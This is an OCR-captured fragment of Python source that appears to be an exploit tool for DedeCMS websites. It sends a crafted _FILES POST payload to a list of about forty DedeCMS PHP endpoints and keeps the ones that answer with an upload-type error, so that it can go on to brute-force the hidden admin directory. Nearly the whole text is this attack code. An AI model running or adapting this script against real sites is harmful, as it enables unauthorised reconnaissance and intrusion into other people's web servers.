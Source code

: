     characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!#@-"
    back_dir = ""

    show_message = {}
    check_message = {}
    valid_file = []
    data = {
        "_FILES[tools][tmp_name]" : "./../{p}<</images/adminico.gif",
        "_FILES[tools][name]" : 0,
        "_FILES[tools][size]" : 0,
        "_FILES[tools][type]" : "image/gif"
    }

    headers = {
            
                            "User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) Gecko/20100101 Firefox/40.0",
                        "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                        "Accept-Language":"zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
                        "Content-Type":"application/x-www-form-urlencoded",
                        "Connection":"Close"
    }

    class Bute_Login:
            global headers
            def __init__(self,target):
                    self.target = target

            def Check(self):
                    global data,check_message,valid_file
                    
                    File_Chek_List =['/tags.php','/include/vdimgck.php','/m/list.php','/m/view.php','/member/config.php','/plus/advancedsearch.php',
                                      '/plus/arcmulti.php','/plus/bookfeedback.php','/plus/bookfeedback_js.php','/plus/car.php','/plus/carbuyaction.php',
                                      '/plus/comments_frame.php','/plus/count.php','/plus/digg_ajax.php','/plus/digg_frame.php','/plus/digg_frame.php',
                                         '/plus/disdls.php','/plus/diy.php','/plus/download.php','/plus/erraddsave.php',
                                         '/plus/feedback.php','/plus/feedback_ajax.php','/plus/flink.php','/plus/flink.php','/plus/flink_add.php',
                                         '/plus/freelist.php','/plus/heightsearch.php','/plus/list.php','/plus/mytag_js.php',
                                         '/plus/posttocar.php','/plus/qrcode.php','/plus/recommend.php','/plus/rss.php','/plus/search.php','/plus/showphoto.php',
                                         '/plus/stow.php','/plus/view.php','/plus/vote.php','/special/index.php']
                    for filename in File_Chek_List:
                            try:
                                    res = requests.post(self.target+filename,data=data)
                                    #print self.target+filename+"--->"+res.text
                                    if "Upload filetype not allow !" in res.text and res.status_code == 200:
                                            valid_file.append(filename)
                            except:
                                    pass
                    #print valid_file
                    #print valid_file
                    if len(valid_file):
                            if "/tags.php" in valid_file:
                                    for i in valid_file:
                                            if i == "/tags.php":
                                                    return i
                            else:
                                    file_name = choice(valid_file)
                                    return file_name
                    else:
                            return False
